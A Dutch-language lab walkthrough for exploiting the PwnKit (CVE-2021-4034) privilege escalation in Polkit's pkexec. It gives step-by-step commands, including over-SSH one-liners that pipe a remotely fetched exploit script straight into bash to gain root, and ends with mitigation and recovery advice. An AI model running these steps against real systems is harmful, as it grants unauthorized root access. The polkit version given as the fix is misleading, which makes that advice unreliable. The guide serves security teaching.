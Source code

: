 # CVE-2021-4034 (PwnKit) Exploitatie Gids

## 🎯 Overzicht

Deze gids demonstreert hoe je CVE-2021-4034 kunt exploiteren, een lokale privilege-escalatie kwetsbaarheid in de pkexec-component van Polkit. De exploit stelt een lokale gebruiker in staat om root-rechten te verkrijgen op kwetsbare systemen.

## 📋 Vereisten

- SSH-toegang tot de kwetsbare (Ubuntu) VM als gebruiker `tester`
- Internetverbinding om GitHub te bereiken
- Basiskennis van Linux command line
- Kali Linux VM voor exploitatie

## 📝 Cheatsheet

- SSH naar de kwetsbare VM: `ssh tester@<ubuntu_ip>`
- Controleer huidige rechten: `id`
- Clone exploit en navigeer:
  ```bash
  git clone https://github.com/cd80-ctf/CVE-2021-4034.git && cd CVE-2021-4034
  ```
- Maak exploit uitvoerbaar: `chmod +x run.sh`
- Voer exploit uit: `./run.sh`
- Verifieer root-toegang: `id` of `whoami`
- Voor preventie en herstel: zie secties "Best Practices" en "Impact & Recovery"

## 🔍 Kwetsbaarheidsanalyse

### Technische Details

- **Component**: pkexec (Polkit)
- **Type Kwetsbaarheid**: Lokale Privilege Escalatie (LPE)
- **CVSS Score**: 7.8 (Hoog)
- **Oorzaak**: Out-of-bounds schrijven in argumentafhandeling

### Getroffen Systemen

- Ubuntu 18.04 (en andere Linux distributies)
- Systemen met Polkit versies voor de fix

## 🚀 Exploitatiestappen

### 1. Initiële Toegang

1. SSH naar de kwetsbare (Ubuntu) VM (vanaf de Kali Linux VM):

   ```bash
   ssh tester@<ubuntu_ip>
   ```

1.2 open de bash shell
``` bash
bash
```

2. Controleer huidige rechten:
   ```bash
   id
   # Verwacht resultaat: uid=1001(tester) gid=1001(tester) groups=1001(tester)
   ```

### 2. Exploit Setup

#### Methode 1: Handmatige Setup

1. install git
```bash
sudo apt install git gcc
```

2. Clone de exploit repository:

   ```bash
   git clone https://github.com/cd80-ctf/CVE-2021-4034.git
   cd CVE-2021-4034
   ```

3. Maak de exploit uitvoerbaar:

   ```bash
   chmod +x run.sh
   ```

4. Voer de exploit uit:
   ```bash
   ./run.sh
   ```

#### Methode 2: One-liner (Git)

```bash
ssh tester@<ubuntu_ip> \
  'git clone --depth 1 https://github.com/cd80-ctf/CVE-2021-4034.git \
   && cd CVE-2021-4034 \
   && chmod +x run.sh \
   && ./run.sh'
```

#### Methode 3: One-liner (Curl)

```bash
ssh tester@<ubuntu_ip> 'curl -sL https://raw.githubusercontent.com/cd80-ctf/CVE-2021-4034/main/run.sh | bash'
```

### 3. Verificatie

1. Na succesvolle exploitatie, controleer root-toegang:

   ```bash
   id
   # Verwacht resultaat: uid=0(root) gid=0(root) groups=0(root)
   ```

2. Test root-rechten:
   ```bash
   whoami
   # Verwacht resultaat: root
   ```

## 📚 Begrip van de Exploit

### Hoe het Werkt

1. De exploit maakt gebruik van een geheugencorruptie kwetsbaarheid in pkexec
2. Het manipuleert omgevingsvariabelen om de kwetsbaarheid te triggeren
3. De exploit creëert een kwaadaardige omgeving die leidt tot root-toegang

### Technische Details

De kwetsbaarheid bestaat omdat pkexec command-line argumenten niet correct verwerkt, wat leidt tot een out-of-bounds schrijven. Dit stelt een aanvaller in staat om geheugen te manipuleren en verhoogde rechten te verkrijgen.

## 🔒 Veiligheidsimplicaties

- Elke lokale gebruiker kan root-toegang krijgen
- Geen speciale rechten vereist
- Kan worden gebruikt als onderdeel van een grotere aanvalsketen

## 📝 Best Practices

1. **Voor Systeembeheerders**

   - Houd systemen up-to-date
   - Pas beveiligingspatches direct toe
   - Verwijder SUID-bit van pkexec indien onnodig: `sudo chmod 0755 /usr/bin/pkexec`
   - Overweeg gebruik van AppArmor/SELinux profielen voor pkexec

## 🔄 Impact & Recovery

- Na exploitatie kan een aanvaller volledige root-toegang verkrijgen, wat leidt tot installatie van rootkits, backdoors en volledige compromittering.
- Recovery stappen:
  1. Beëindig ongeautoriseerde sessies en wijzig alle wachtwoorden.
  2. Reset SUID-bit voor pkexec: `sudo chmod 0755 /usr/bin/pkexec`.
  3. Update polkit naar versie 0.105 of hoger.
  4. Overweeg herinstallatie van het besturingssysteem bij vermoeden van rootkit-infectie.

## 🙏 Credits

- Originele kwetsbaarheidsontdekking: **Qualys Security**
- Exploit code: [cd80-ctf](https://github.com/cd80-ctf/CVE-2021-4034)

## ⚠️ Disclaimer

Deze gids is alleen bedoeld voor educatieve doeleinden. De exploit mag alleen worden gebruikt in gecontroleerde omgevingen met de juiste autorisatie.

